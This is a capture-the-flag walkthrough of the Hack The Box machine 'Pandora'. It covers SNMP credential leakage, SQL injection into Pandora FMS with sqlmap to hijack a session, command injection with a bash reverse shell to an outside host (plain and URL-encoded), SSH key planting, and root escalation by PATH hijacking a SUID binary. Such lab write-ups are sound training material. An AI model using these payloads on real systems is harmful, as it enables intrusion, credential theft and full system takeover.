- Machine Name: Pandora
- Difficulty: Medium
- OS Type: Linux

### Summary:

- SNMP revelas the SSH credentials that we can login to machine
- It turns out that web Pandora FMS running internally i used chisel to forward port and access website from our machine
- further enumeration reveals the SQL Injection vulnerability that can leak the Sesssion ID -https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/
- use this vulnerability with sqlmap to get Session ID of matt user and use that to login to Pandora FMS, further searching reveals another vulnerability in pandora FMS https://www.coresecurity.com/core-labs/advisories/pandora-fms-community-multiple-vulnerabilities
- got access as matt user, found binary with SUID bit and try to execute it it failed, hint suggest to login using ssh, so added my public key in authorized_keys file and login using my private id_rsa keys
- running strings on the binary i found path injection vulnerability, create malicious tar file, add custom path and run SUID binary to get root shell

### Port Scanning - Service & Version Enumeration

```php
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDPIYGoHvNFwTTboYexVGcZzbSLJQsxKopZqrHVTeF8oEIu0iqn7E5czwVkxRO/icqaDqM+AB3QQVcZSDaz//XoXsT/NzNIbb9SERrcK/n8n9or4IbXBEtXhRvltS8NABsOTuhiNo/2fdPYCVJ/HyF5YmbmtqUPols6F5y/MK2Yl3eLMOdQQeax4AWSKVAsR+issSZlN2rADIvpboV7YMoo3ktlHKz4hXlX6FWtfDN/ZyokDNNpgBbr7N8zJ87+QfmNuuGgmcZzxhnzJOzihBHIvdIM4oMm4IetfquYm1WKG3s5q70jMFrjp4wCyEVbxY+DcJ54xjqbaNHhVwiSWUZnAyWe4gQGziPdZH2ULY+n3iTze+8E4a6rxN3l38d1r4THoru88G56QESiy/jQ8m5+Ang77rSEaT3Fnr6rnAF5VG1+kiA36rMIwLabnxQbAWnApRX9CHBpMdBj7v8oLhCRn7ZEoPDcD1P2AASdaDJjRMuR52YPDlUSDd8TnI/DFFs=
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNNJGh4HcK3rlrsvCbu0kASt7NLMvAUwB51UnianAKyr9H0UBYZnOkVZhIjDea3F/CxfOQeqLpanqso/EqXcT9w=
|   256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOCMYY9DMj/I+Rfosf+yMuevI7VFIeeQfZSxq67EGxsb
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-favicon: Unknown favicon MD5: 115E49F9A03BB97DEB840A3FE185434C
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Port Scanning - UDP

```php
PORT    STATE SERVICE REASON              VERSION
161/udp open  snmp    udp-response ttl 63 SNMPv1 server; net-snmp SNMPv3 server (public)
```

## Enumeration

### Port 80/HTTP

let’s start our enumeration from port 80



i ran gobuster on the website but didn’t find anything useful, let’s move to SNMP enumeration

### Port 161/SNMP (UDP)

as we know the SNMP version is 1 i’ll use snmp walk command to enumerate snmp

```php
snmpwalk -v 1 -c public 10.10.11.136
```



i’ll check if this is valid creds or not

```php
nxc ssh 10.10.11.136 -u daniel -p HotelBabylon23
```



let’s login to ssh as daniel

```php
ssh daniel@10.10.11.136
```



it turns out that there’s another user matt on the system, and enumerating host reveals the pandora  FMS running internally

```php
cat /etc/apache2/sites-enabled/pandora.conf
```



so the above configuration shows that the website is only accessible in localhost, and pandora.panda.htb, so i’ll forward port 80 to my kali machine and access it from there

i’ll be using chisel to forward port to my kali machine 

on kali

```php
chisel server --reverse --port 5000
```



on target machine

```php
./chisel_1.10.1_linux_amd64 client 10.10.14.17:5000 R:8081:localhost:80
```



add the [localhost](http://localhost) pandora.panda.htb in /etc/hosts file



and then visit localhost:8081



it directly redirect to login page, quick google search uncovers the RCE exploit for the pandora FMS

https://www.exploit-db.com/exploits/50961

but it is authenticated, back to our target machine i found the file that contains admin password hash,  `/var/www/pandora/pandora_console/pandoradb_data.sql` 



that can be crack via crackstation.net



but this won’t working

https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained another search reveals the SQL Injection vulnerability 



let’s open /include/chart_generator.php



and it is  taking session_id as get parameter which is seems to vulnerable



```php
sqlmap -u 'http://localhost:8081/pandora_console/include/chart_generator.php?session_id=1' -D pandora -T tsessions_php --dump
```

let’s use sqlmap to get valid session ID



add the above session id In PHPSESSID cookie



refresh the page



searching for exploit i found RCE vulnerability exploit https://www.exploit-db.com/exploits/50961

but unfortunately it’s not working, reading throughout exploit turns out that it is trying to access the filemanager and put reverse shell in it, but seems it’s not able to access that

continue searching, i found another article about RCE vulnerability - https://www.coresecurity.com/core-labs/advisories/pandora-fms-community-multiple-vulnerabilities



in our application, click on events tab → View events, and intercept request via burpsuite



changing the response and adding the request body

```php
page=include/ajax/events&perform_event_response=10000000&target=id&response_id=1
```



and we got response back as our command executed, i’ll use this payload to get reverse shell → `bash -c 'bash -i >& /dev/tcp/10.10.14.17/443 0>&1'` 

i’ll encode this to url using https://www.urlencoder.org/

and final encode payload as below

```php
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.17%2F443%200%3E%261%27
```



running linpeas, i found interesting SUID binary



transfer binary to our local machine and run strings on it



Lol, it’s not specifying full path for tar binary we can laverage to get root shell, as the binary runs as root we can get shell as root

let’s normally run the binary



strange it still fails to execute, to debug issue, i ran pspy in daniel SSH shell



and we can see that the binary executes at root, but running tar as normal user, i don’t really find any solution or why it’s happening i used hint and found that we need to get ssh session on machine to solve this

create .ssh directory and write our ssh public key in authorized_keys file

```php
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCx9LVWrCkaqntFdyokUKNvnleMwdyo5VkR8DwCbGDH1jFcYCuMOsUoKxjmGqUsKy6sLQhK5xPEUvYAWJoPTznf+yuT7djgCbuk2I028OoqOf4cxkDLO6pLspb7l2QGlG1drPPuW9UJp19in7tuBiyEu852V7W4b82S5W4Az0Bu28sjr0sGNugLhIzE+zUr/mS89CwICY0FebWXxKCxe9flaQLgLHqNtVsQyS+aWJHdFei9uzvW6klhWCRyNGnOMp9ptD+mbI/j9e53at/qEUlCS7Y+Tvcp1WG0H6IvDzkbTEf9no+Uz7rVCmqaYBGDR+L8kuCnaA3+PJ7U5VJFLqS0YDFbzLGGReFk93zGq8aW85wAHY+lX4FgFtYmZGDFGrfyE4LVOqtHofn6VBSkWLHK7t0kHSrnBCi5/G8KcNCVcuNKZquzz9hT+lR3UM/oMHLX4u8tbiCGaZlsgPAvjmxU4A9GA8UsBzREqd5QbNAyjZ+OrRweEkpCC/tnVMgIuWc= kali@kali' > authorized_keys
```

and use my private key to login to SSH

```php
ssh -i ~/.ssh/id_rsa matt@10.10.11.136
```



running /usr/bin/pandora_backup now we successfully ran 



nice, now let’s create a tar binary in /tmp folder

create a malicious `tar` file

```php
echo -e '#!/bin/bash\necho "Rooted!!"\n/bin/bash' > tar
```

make it executable

```php
chmod +x tar
```

now we add /tmp in PATH variable so when it looks for executable first it search in /tmp

```php
export PATH=/tmp:$PATH
```



and execute the /usr/bin/pandora_backup hopefully we can get the root shell

